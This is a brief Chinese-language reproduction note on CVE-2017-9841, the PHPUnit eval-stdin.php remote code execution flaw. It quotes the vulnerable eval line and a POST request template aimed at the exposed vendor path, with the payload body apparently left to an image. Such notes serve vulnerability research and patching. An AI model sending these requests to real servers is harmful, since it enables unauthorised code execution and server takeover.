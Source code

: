 # PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841

## 漏洞描述

PHPUnit5.6.3 之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

```
PHPUnit < 5.6.3
```

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```plain
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行 PHP 代码

```plain
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![](images/202202091319138.png)
